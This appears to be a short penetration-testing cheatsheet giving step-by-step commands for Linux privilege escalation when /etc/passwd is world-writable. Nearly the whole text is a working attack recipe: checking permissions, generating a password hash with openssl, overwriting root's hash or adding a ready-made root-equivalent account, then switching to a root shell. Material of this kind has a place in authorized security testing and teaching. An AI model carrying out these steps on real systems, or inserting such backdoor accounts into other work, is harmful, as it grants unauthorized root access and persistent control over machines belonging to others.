 ## /etc/passwd Privilege Escalation Cheatsheet

**Precondition:**

- `/etc/passwd` is **world-writable**

### 1. Check permissions

```bash
ls -l /etc/passwd
```

### 2. Generate password hash

```bash
openssl passwd -1 newpasswordhere
```

### 3. Edit `/etc/passwd`

Option A – replace root’s password hash:

```
root:<HASH>:0:0:root:/root:/bin/bash
```

Option B – add a new root-equivalent user:

```
newroot:BetIsHFk/.HeMQ:0:0:root:/root:/bin/bash
```

### 4. Get root shell

```bash
su root
# or
su newroot
```

### 5. Cleanup

```bash
exit
```

---
